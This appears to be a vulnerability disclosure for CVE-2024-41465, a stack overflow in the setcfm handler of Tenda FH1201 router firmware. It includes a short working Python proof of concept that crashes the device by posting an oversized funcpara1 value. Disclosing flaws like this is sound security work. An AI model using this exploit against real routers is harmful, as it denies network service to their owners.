



# setcfm

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41465

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the setcfm function.The parameter funcpara1 is copied to stackspace v10 via the sprintf function without checking the length,so an attacker can cause a denial of service attack by controlling the funcpara1 parameter





### poc

```python
import requests

ip = '192.168.74.145'

url = "http://" + ip + "/goform/setcfm"


data = {
        'funcname': 'save_list_data', 
        'funcpara1': b'a'*0x500, 
        'funcpara2':'aaaaaa'
}


response = requests.post(url, data=data)
print(response.text)

```



